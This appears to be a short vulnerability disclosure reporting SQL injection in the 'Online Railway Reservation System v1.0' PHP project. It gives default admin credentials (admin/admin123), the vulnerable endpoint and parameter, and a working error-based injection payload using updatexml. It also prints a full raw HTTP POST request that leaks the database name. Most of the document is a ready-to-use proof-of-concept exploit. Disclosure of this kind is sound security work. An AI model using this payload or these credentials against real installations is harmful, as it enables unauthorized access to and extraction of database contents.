 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/classes/Master.php?f=delete_schedule

Vulnerability location: /orrs/classes/Master.php?f=delete_schedule, id=

Current database name: orrs_db,length is 7

[+] Payload:  id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /orrs/classes/Master.php?f=delete_schedule HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/orrs/admin/?page=schedules
Content-Length: 65
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/172341014-24359b87-2560-4a83-8f9b-53168b929fc5.png)
